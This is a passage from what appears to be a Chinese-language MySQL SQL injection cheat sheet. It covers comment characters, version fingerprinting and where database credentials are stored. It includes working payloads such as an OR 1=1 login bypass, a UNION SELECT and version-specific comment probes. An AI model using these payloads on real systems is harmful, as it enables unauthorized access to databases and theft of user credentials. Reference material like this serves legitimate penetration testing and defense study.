 
##### 注释查询

以下内容可以注释掉语句

注释符 | 意义
-|-
# | Hash comment
/* | C-style comment
-- - | SQL comment
;%00 | Nullbyte 空子节
`    | 反引号

例子：

	SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';
	SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';	

注意：

当用作别名时，反引号只能用于结束查询。


##### 测试数据库版本

__变量__

	VERSION()
	@@VERSION
	@@GLOBAL.VERSION
	
	Example:
	SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5';
	Note:
	
	Output will contain -nt-log in case the DBMS runs on a Windows based machine.

__具体代码__

	/*!VERSION Specific Code*/
	
	Example:
	Given the query SELECT * FROM Users limit 1,{INJECTION POINT};
	
	1 /*!50094eaea*/;	False - version is equal or greater than 5.00.94
	1 /*!50096eaea*/;	True - version is lesser than 5.00.96
	1 /*!50095eaea*/;	False - version is equal to 5.00.95

	Note:
	
	在由于注入位置而无法向查询添加SQL的情况下，确定版本可能有用。有关特定的Mysql代码，可以查看特定Mysql代码。



##### 数据库凭证



	表 | mysql.user    mysql> select * from  mysql.user\G;
	列 | user,password
	当前用户 | user(), current_user(), current_user, system_user(), session_user()
